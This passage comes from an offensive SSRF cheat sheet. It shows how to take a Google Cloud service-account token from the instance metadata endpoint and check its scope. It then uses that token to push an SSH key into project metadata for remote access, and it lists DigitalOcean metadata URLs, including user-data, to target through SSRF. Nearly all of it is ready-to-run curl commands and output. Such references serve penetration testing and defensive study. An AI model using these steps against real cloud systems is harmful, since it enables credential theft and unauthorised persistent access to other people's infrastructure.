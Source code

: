 #### Add an SSH key

Extract the token

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

Check the scope of the token

```powershell
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```

Now push the SSH key.

```powershell
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```

### SSRF URL for Digital Ocean

Documentation available at `https://developers.digitalocean.com/documentation/metadata/`

```powershell
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
```

### SSRF URL for Packetcloud

Documentation available at `https://metadata.packet.net/userdata`
